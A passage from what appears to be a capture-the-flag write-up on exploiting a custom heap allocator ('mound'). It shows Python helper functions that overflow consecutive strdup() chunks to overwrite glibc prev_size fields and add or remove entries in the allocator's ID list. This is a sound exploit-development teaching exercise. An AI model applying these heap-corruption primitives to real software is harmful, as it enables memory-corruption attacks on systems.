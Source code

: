 ![](prev_size.png)

This means that if I call `strdup("A"*0x17)` twice in succession, the first `strdup()` chunk allocated can be used to overwrite the `prev_size` of the 2nd `strdup()` chunk:

```python
strdup(b''.rjust(0x17,b'a'), 0)
strdup(b''.rjust(0x17,b'a'), 1)
edit(0, b''.rjust(0x17,b'a'))
```

![](prev_size2.png)

Using this method, the interpreted `mchunk->id` for a glibc heap chunk can be modified to any value within `range(0, 1<<56)`.

```python
# register an arbitrary 56-bit id onto the mound's free id list
def reg_id(id: int):
    strdup(b'a'*0x17, 0)
    strdup(b'a'*0x17, 1)
    edit(0, pack(id)[:7].rjust(0x17, b'a'))
    free(0)
```

What are the consequences of this? Adding a new `id` to `mound_arena.ids[]` is pretty useless; it would only make allocations _harder_ instead of easier. I could also try to get rid of an ID:

```python
def r64(): return randint(0, (1<<64)-1) # generate random ids. Unrelated to rand64bit()
def rm_id(id: int): # remove an arbitrary 56-bit id from mound_arena.ids[]
    strdup(b'a'*0x17, 0)
    strdup(b'a'*0x17, 1)
    edit(0, pack(r64())[:7].rjust(0x17, b'a'))
    free(1)
    edit(0, pack(id)[:7].rjust(0x17,b'a'))
    add(0x10, 2, b'a'*0x10)
```
